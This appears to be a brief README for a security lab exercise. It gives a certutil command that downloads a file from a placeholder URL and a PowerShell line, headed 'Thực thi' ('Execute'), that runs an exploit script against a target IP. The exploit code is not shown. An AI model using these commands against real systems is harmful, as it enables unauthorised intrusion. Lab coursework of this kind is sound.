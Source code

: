 # Lab3
download file in cmd:
certutil -urlcache -split -f %url% %file%
Thực thi:
powershell.exe exploit.ps1 <ip>
